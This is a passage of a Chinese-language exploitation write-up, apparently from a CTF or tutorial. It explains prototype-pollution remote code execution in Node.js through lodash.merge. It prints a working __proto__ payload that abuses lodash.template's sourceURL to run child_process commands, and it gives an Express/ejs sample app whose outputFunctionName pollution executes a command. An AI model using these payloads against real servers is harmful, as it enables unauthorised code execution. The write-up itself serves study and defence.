 代码很简单，就是将用户提交的信息，用 `lodash.merge` 方法合并到 session 里面去，多次提交， session 里最终保存你提交的所有信息。这里的 `lodash.merge` 操作存在原型链污染漏洞无需多言，下面给出解题的 payload：

```
`{`"__proto__":`{`"sourceURL":"\u000areturn e =&gt;`{`return global.process.mainModule.constructor._load('child_process').execSync('id')`}`"`}``}`
```

为什么要污染 sourceURL 呢？我们看到 `lodash.template` 的代码：[https://github.com/lodash/lodash/blob/4.17.4-npm/template.js#L165](https://github.com/lodash/lodash/blob/4.17.4-npm/template.js#L165)

```
// Use a sourceURL for easier debugging.
var sourceURL = 'sourceURL' in options ? '//# sourceURL=' + options.sourceURL + '\n' : '';
// ...
var result = attempt(function() `{`
  return Function(importsKeys, sourceURL + 'return ' + source)
  .apply(undefined, importsValues);
`}`);
```

可以看到 sourceURL 属性是通过一个三目运算法赋值，其默认值为空。再往下看可以发现 sourceURL 被拼接进 Function 函数构造器的第二个参数，造成任意代码执行漏洞。所以我们通过原型链污染 sourceURL 参数构造 chile_process.exec 就可以执行任意代码了。但是要注意，Function 环境下没有 `require` 函数，直接使用`require('child_process')` 会报错，所以我们要用 `global.process.mainModule.constructor._load` 来代替。

我们将 payload 以 Json 的形式发送给后端，因为 express 框架支持根据 Content-Type 来解析请求 Body，为我们注入原型提供了很大方便：

[![](https://p5.ssl.qhimg.com/t0188c37ffe2f9650a4.png)](https://p5.ssl.qhimg.com/t0188c37ffe2f9650a4.png)

如上图所示，成功执行 `id` 命令。



## 配合 ejs 模板引擎实现 RCE

Nodejs 的 ejs 模板引擎存在一个利用原型污染进行 RCE 的一个漏洞。但要实现 RCE，首先需要有原型链污染，这里我们暂且使用 lodash.merge 方法中的原型链污染漏洞。
- app.js
```
var express = require('express');
var lodash = require('lodash');
var ejs = require('ejs');

var app = express();
//设置模板的位置与种类
app.set('views', __dirname);
app.set('views engine','ejs');

//对原型进行污染
var malicious_payload = '`{`"__proto__":`{`"outputFunctionName":"_tmp1;global.process.mainModule.require(\'child_process\').exec(\'calc\');var __tmp2"`}``}`';
lodash.merge(`{``}`, JSON.parse(malicious_payload));

//进行渲染
app.get('/', function (req, res) `{`
    res.render ("index.ejs",`{`
        message: 'whoami test'
    `}`);
`}`);

//设置http
var server = app.listen(8000, function () `{`

    var host = server.address().address
    var port = server.address().port

    console.log("应用实例，访问地址为 http://%s:%s", host, port)
`}`);
```